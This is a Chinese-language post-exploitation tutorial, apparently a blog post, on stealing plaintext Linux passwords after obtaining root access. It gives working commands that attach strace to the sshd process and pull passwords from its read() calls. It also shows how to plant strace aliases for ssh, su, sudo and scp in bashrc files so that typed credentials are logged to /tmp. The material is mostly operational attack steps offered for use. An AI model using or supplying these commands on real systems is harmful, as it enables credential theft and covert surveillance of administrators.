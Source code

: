 在window下获取到administraot权限以后，使用mimikatz不管是抓取明文密码或是hash都很方便，但是在Linux就算获取到root权限了，获取hash倒是很简单cat一下就行，但是大概率很难解密出来。那么如何在Linux抓取root用户的明文密码？

使用strace抓取密码

strace是一个可用于诊断、调试和教学的Linux用户空间跟踪器。我们用它来监控用户空间进程和内核的交互，比如系统调用、信号传递、进程状态变更等。
strace底层使用内核的ptrace特性来实现其功能。

在运维的日常工作中，故障处理和问题诊断是个主要的内容，也是必备的技能。strace作为一种动态跟踪工具，能够帮助运维高效地定位进程和服务故障。它像是一个侦探，通过系统调用的蛛丝马迹，告诉你异常的真相。
最重要的是，一般在Linux发行版下都已经默认安装了，无需自行安装。

使用strace抓取密码，必须要管理员登录才行
第一种：
我们可以使用last命令来查看管理员最后登录的时间，登录顺序，由近到远
首先ps -elf |grep sshd 找到sshd的pid,使用nohup strace -f -p pid -o sshd.out.txt &来跟踪sshd进程
然后当管理员使用密码登录以后，下载 sshd.out.txt文件,在文件中搜索read(7, "\f\0\0\0\f,字符串后面的即是明文密码

第二种：
在获取到目标ROOT权限后，可以直接在终端执行如下命令，该命令会监听sshd进程，并将登录过程及信息记录到/tmp/sshd.log文件中。
Default
(strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/sshd.log &)

alias命令

首先编辑bashrc文件, vi ~/.bashrc[当前用户] 或者vi /etc/bashrc[所有用户]然后将如下命令加入文件当中并保存，注意strace权限问题。
Default
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s 2048 ssh'

然后要记得使用source .bashrc命令使更改的配置生效。
接着使用如下命令查看记录的密码。
cat /tmp/sshpwd*.log
密码会以一行一个字符的方式来记录。
使用su、sudo、scp等命令也可以。
Default
alias su='strace -o /tmp/supwd-`date '+%d%h%m%s'`.log -e read,write,connect -s 2048 su'
  
alias sudo='strace -o /tmp/sudopwd-`date '+%d%h%m%s'`.log -e read,write,connect -s 2048 sudo'
alias scp='strace -o /tmp/scppwd-`date '+%d%h%m%s'`.log -e read,write,connect -s 2048 scp'
